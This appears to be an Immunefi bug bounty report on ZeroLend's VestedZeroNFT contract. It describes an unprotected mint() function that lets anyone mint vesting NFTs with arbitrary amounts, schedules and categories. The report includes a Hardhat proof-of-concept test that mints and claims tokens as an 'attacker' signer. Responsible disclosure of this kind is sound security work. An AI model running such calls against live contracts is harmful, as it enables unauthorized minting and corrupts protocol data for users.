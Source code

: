
# Unauthorized minting of vested NFTs

Submitted on Thu Feb 29 2024 10:43:28 GMT-0400 (Atlantic Standard Time) by @riptide for [Boost | ZeroLend](https://immunefi.com/bounty/zerolend-boost/)

Report ID: #28875

Report type: Smart Contract

Target: https://github.com/zerolend/governance

Impacts:
- Griefing (e.g. no profit motive for an attacker, but damage to the users or the protocol)

## Description
## Brief/Intro
`VestedZeroNFT` contract lacks a permissioned modifer for `mint()` on `L63` which allows any user to mint an unlimited amount of `VestedZeroNFTs` to any address with falsified categories.

## Vulnerability Details
Lack of permissioned modifier to a function explicitly specified as protected in the comments.

## Impact Details
Low impact other than misrepresenting the `VestCategory` at will and corrupting any analytics when viewing the collection and stats of the vested NFTs (amounts, cliff times, linear, etc all can be arbitrarily set).

## References
Add any relevant links to documentation or code

        
## Proof of concept
```
import { expect } from "chai";
import { deployGovernance } from "./fixtures/governance";
import { loadFixture, time } from "@nomicfoundation/hardhat-network-helpers";
import { SignerWithAddress } from "@nomicfoundation/hardhat-ethers/signers";
import { VestedZeroNFT } from "../typechain-types";
import { e18 } from "./fixtures/utils";
const { ethers } = require("hardhat");

describe.only("VestedZeroNFT", () => {
  let ant: SignerWithAddress;
  let vest: VestedZeroNFT;
  let now: number;

  beforeEach(async () => {
    const deployment = await loadFixture(deployGovernance);
    ant = deployment.ant;
    vest = deployment.vestedZeroNFT;
    now = Math.floor(Date.now() / 1000);

  });

  describe("unprotected mint function", () => {

    it("anyone can mint an NFT with any vesting parameters", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );
      expect(await vest.balanceOf(ant)).to.equal(1);
      expect(await vest.ownerOf(1)).to.equal(ant.address);
      expect(await vest.tokenOfOwnerByIndex(ant.address, 0)).to.equal(1);

      await time.increaseTo(now + 1001);
      const res = await vest.claimable(1);
      console.log("unlock date: ", now + 1000);
      console.log(res);
      expect(res.upfront).to.equal(e18 * 5n);
      expect(res.pending).to.equal(e18 * 15n);

      expect(await vest.claim.staticCall(1)).to.eq(e18 * 20n);
      await vest.claim(1);
      expect(await vest.claimed(1)).to.equal(e18 * 20n);
      expect(await vest.unclaimed(1)).to.equal(0);
    });

    
    it("anyone can mint an NFT with zero value", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        0, // 15 ZERO linear vesting
        0, // 5 ZERO upfront
        1, // linear duration
        500, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        0
      );

    });

    it("anyone can mint an NFT with incorrect categorization", async function () {
      const [attacker] = await ethers.getSigners();
      await vest.connect(attacker).mint(
        ant.address,
        e18 * 15n, // 15 ZERO linear vesting
        e18 * 5n, // 5 ZERO upfront
        1, // linear duration
        0, // cliff duration - 500 seconds
        now + 1000, // unlock date
        false, // penalty -> false
        1
      );
    });


  });
});
```